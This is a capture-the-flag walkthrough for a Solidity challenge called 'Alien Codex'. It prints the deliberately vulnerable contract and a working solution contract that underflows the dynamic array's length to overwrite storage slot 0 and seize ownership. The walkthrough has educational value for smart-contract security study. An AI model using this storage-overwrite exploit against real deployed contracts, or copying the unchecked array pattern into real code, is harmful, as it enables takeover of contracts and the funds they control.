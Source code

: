# Alien Codex

## Challenge Description

You've uncovered an Alien contract. Claim ownership to complete the level.

Things that might help

-   Understanding how array storage works
-   Understanding [ABI specifications](https://solidity.readthedocs.io/en/v0.4.21/abi-spec.html)
-   Using a very `underhanded` approach

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./utils/Ownable.sol";

contract AlienCodex is Ownable {
    bool public contact;
    bytes32[] public codex;

    modifier contacted() {
        assert(contact);
        _;
    }

    function makeContact() public {
        contact = true;
    }

    function record(bytes32 _content) public contacted {
        codex.push(_content);
    }

    function retract() public contacted {
        codex.length--;
    }

    function revise(uint i, bytes32 _content) public contacted {
        codex[i] = _content;
    }
}
```

## Challenge Solution Walkthrough

To become the `owner` of this contract, we need to modify the first slot of the memory, which contains the `_owner` variable inherited from the `Ownable` contract. Although there is no `owner` variable directly in this contract, we can access and modify `_owner` in the memory.

Based on the contract's compiler version, which is `0.5.0`, and the absence of the `SafeMath` library, we can utilize underflow to access the `_owner` variable. Before proceeding, let's examine the memory layout:

|    Slot Number     |             Variable(s)              |
| :----------------: | :----------------------------------: |
|        `0`         |         `_owner`, `contact`          |
|        `1`         |            `codex.length`            |
|        ...         |                 ...                  |
|   `keccak256(1)`   |              `codex[0]`              |
| `keccak256(1) + 1` |              `codex[1]`              |
|        ...         |                 ...                  |
|   `2 ** 256 - 1`   | `codex[2 ** 256 - 1 - keccak256(1)]` |

Accessing the first slot is equivalent to accessing the `2 ** 256` slot due to underflow. We can achieve this by utilizing `codex[2 ** 256 - 1 - keccak256(1)] + 1`. By modifying the value at `codex[2 ** 256 - 1 - keccak256(1)]`, we effectively change the first slot that contains `_owner`.

To accomplish this, we can use the following contract code:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./AlienCodex.sol";

contract AlienCodexSolution {
    AlienCodex public alienCodex;

    constructor(address alienCodexAddress) public {
        alienCodex = AlienCodex(alienCodexAddress);
    }

    function solveChallenge() public {
        alienCodex.makeContact();
        alienCodex.retract();
        uint256 index = 2 ** 256 - 1 - uint256(keccak256(abi.encode(1))) + 1;
        alienCodex.revise(index, bytes32(uint256(uint160(msg.sender))));
    }
}
```

In the `solveChallenge()` function, we perform the following steps:

1. Call the `makeContact()` function to set the `contact` variable to `true`, enabling us to invoke other functions within the `AlienCodex` contract.
2. Invoke the `retract()` function to decrease the length of the `codex` array. Since the initial length was `0`, decrementing it results in `2 ** 256 - 1`, effectively setting the size of the `codex` array to the size of the entire memory.
3. Determine the index of the `_owner` variable using the expression `2 ** 256 - 1 - uint256(keccak256(abi.encode(1))) + 1`.
4. Call the `revise()` function to set the value at the calculated index to our own address, converting it to `bytes32` using `bytes32(uint256(uint160(msg.sender)))`.

By executing the `solveChallenge()` function, we successfully complete the challenge and become the new owner of the contract.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

This level exploits the fact that the EVM doesn't validate an array's ABI-encoded length vs its actual payload.

Additionally, it exploits the arithmetic underflow of array length, by expanding the array's bounds to the entire storage area of `2^256`. The user is then able to modify all contract storage.

Both vulnerabilities are inspired by 2017's [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079)
